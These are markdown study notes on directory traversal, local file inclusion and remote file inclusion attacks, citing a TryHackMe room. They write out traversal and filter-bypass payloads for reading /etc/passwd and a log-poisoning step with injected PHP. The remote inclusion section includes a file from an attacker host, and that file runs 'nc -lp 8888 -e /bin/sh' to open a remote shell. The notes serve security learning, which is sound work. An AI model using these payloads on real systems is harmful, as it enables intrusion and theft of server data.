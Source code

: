 # Directory/Path Traversal Attacks
Web applications often request files (e.g., images, documents) using **parameters** in URLs. These **query parameters** allow users to retrieve specific files or perform actions based on input.  

Example:  
When a user wants to access their CV, the request might be:  
`http://webapp.thm/get.php?file=userCV.pdf`  
Here, **`file=userCV.pdf`** is the parameter specifying which file to retrieve.  

Similarly, search engines like Google use parameters in GET requests:  
`https://www.google.com/search?q=TryHackMe`  

A **directory traversal attack** allows attackers to access files outside the web server's root directory by manipulating URL parameters. Typically, web servers restrict file access to a specific directory (e.g., `/var/www/html` in Apache), but improperly validated input can allow attackers to navigate beyond this restriction using sequences like `../../`.  

For example, an attacker might use:  
- `http://www.example.com/index.php?item=../../../../../etc/passwd` (to access sensitive system files)  
- `http://www.example.com/index.aspx?dat=../../../Windows/System32/cmd.exe?/C+dir+C:/` (to execute commands)  

**Bypassing Protections:**  
Simple filters blocking `../` can often be bypassed using techniques such as:  
- **Double encoding:** `%252e%252e%252fetc%252fpasswd`  
- **UTF-8 encoding:** `%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`  
- **Obfuscation with extra characters:** `….//….//etc/passwd` or `/%5C../%5C../etc/passwd`  
___
## Local File Inclusion (LFI) Attacks

**Overview:**  
Local File Inclusion (LFI) attacks exploit vulnerabilities in web applications that dynamically include files without proper validation. If an attacker can control the file path parameter, they can manipulate it to include unintended files.  

**Example Vulnerable Code:**  
```
<?php
include($_GET['include']);
 ... Remaining code of the page ...
```  
A legitimate request might look like:  
`http://mysite.com/index.php?include=header.php`  

However, an attacker could exploit this to access sensitive files:  
`http://mysite.com/index.php?include=../../../../../../etc/passwd`  

**Impact:**  
- Initially, attackers gain read access to system files.  
- If they can inject executable code into a file (e.g., logs, databases, or uploads), they can achieve **Remote Code Execution (RCE)**.  

### **Exploiting LFI for Code Execution**  
1. **Injecting Malicious Code:**  
   - The attacker forces an error log entry by requesting a nonexistent file with embedded PHP code:  
     `http://mysite.com/unknown.xyz?id='<?php system(id)?>'`  
   - If logging is enabled, this gets stored in the web server logs (e.g., `/var/log/apache/access.log`).  

2. **Executing the Injected Code:**  
   - The attacker includes the log file via LFI, causing execution:  
     `http://mysite.com/index.php?include=../../../../../../var/log/apache/access.log`  
   - This can reveal system information like user IDs or be used to gain further access.  

### **Alternative Methods for Code Injection**  
If logs are inaccessible, attackers may insert code via:  
- **Database fields** (e.g., injecting PHP into form fields stored in a database).  
- **HTTP headers** (e.g., modifying the `User-Agent` field and including `/proc/self/environ`).  
- **Email attachments** (e.g., including email log files).  
- **Image uploads** (e.g., hiding PHP code inside image metadata).  

### Black-box LFI testing

**Key Concepts & Techniques:**

1. **Black Box Testing & Error Messages**
   - By inputting an invalid value (e.g., `THM`), the error message can reveal a lot of info:
     - The **include path**: `include(languages/THM.php)`
     - The **file extension** being appended automatically: `.php`
     - The **full directory path**: `/var/www/html/THM-4/`

2. **Path Traversal Attempt**
   - Trying:  
     `?lang=../../../../etc/passwd`  
     Fails because `.php` is still appended, resulting in:  
     `include(languages/../../../../etc/passwd.php)`

3. **Bypassing `.php` Suffix with Null Byte (%00)**
   - Payload:  
     `?lang=../../../../etc/passwd%00`  
     This tricks the app into cutting off the string before `.php`.

   > ⚠️ **Note**: This Null Byte technique doesn’t work in **PHP 5.3.4 and above**.

4. **Filter Bypass with Current Directory Trick**
   - If `/etc/passwd` is filtered, try:
     - `?lang=/etc/passwd/.` (adds a harmless current directory reference)
     - `?lang=/etc/passwd%00`

5. **Filter Replacing `../` with Empty String**
   - Error shows `include(languages/etc/passwd)`
   - Bypass using double-dot confusion:
     - `?lang=....//....//....//etc/passwd`
     - The filter replaces only the first `../`, letting the rest slip through.

6. **Forced Directory Inclusion**
   - App requires full path like: `?lang=languages/EN.php`
   - Bypass by embedding traversal inside the required path:
     - `?lang=languages/../../../../../etc/passwd`
___

## Remote File Inclusion (RFI) Attacks  

**Overview:**  
Remote File Inclusion (RFI) is similar to Local File Inclusion (LFI) but allows attackers to include **external** files hosted on a remote server. This enables the execution of malicious scripts, potentially leading to **Remote Code Execution (RCE)**.  


![img.png](img/img_21.png)


**Key Requirements for RFI:**  
- The web server must **allow remote file inclusion** (e.g., `allow_url_include=On` or `allow_url_fopen` in PHP).  
- The application must dynamically include files based on user input.  

### **Exploiting RFI**  
A vulnerable PHP script:  
```php
<?php
include($_GET['include']);
?>
```  
An attacker could provide an external malicious script:  
`http://mysite.com/index.php?include=http://hacker.com/badfile.txt`  

This script could contain:  
```php
<?php
system('nc -lp 8888 -e /bin/sh');
?>
```  
Once included, this command starts a **Netcat listener**, granting the attacker shell access.  

**Attack Execution:**  
1. The attacker hosts the malicious file (`cmd.txt`) on their server.  
2. They trigger the inclusion via:  
   `http://10.52.200.26/websec/file_inclusion/rfi.php?include=http://10.52.210.210/cmd.txt`  
3. The web server **executes the script**, establishing a backdoor.  
4. The attacker connects using Netcat:  
   `nc -n 10.52.200.26 8888`  
5. The attacker now has a shell on the server (`uid=33(www-data)`).  

### **Impact of RFI Attacks**  
- **Remote Code Execution (RCE):** Full control over the web server.  
- **Data Theft:** Access to sensitive files (database credentials, user data, etc.).  
- **Website Defacement:** Attackers can modify web content.  
- **Malware Injection:** Hosting and distributing malicious software.  
- **XSS**  
- **Dos**  

___
## Sources
- tryhackme, File Inclusion, https://tryhackme.com/room/fileinc.
- M. Kofler et all, Hacking and Security The Comprehensive Guide to Penetration Testing and Cybersecurity, Rheinwerk Publishing 2023


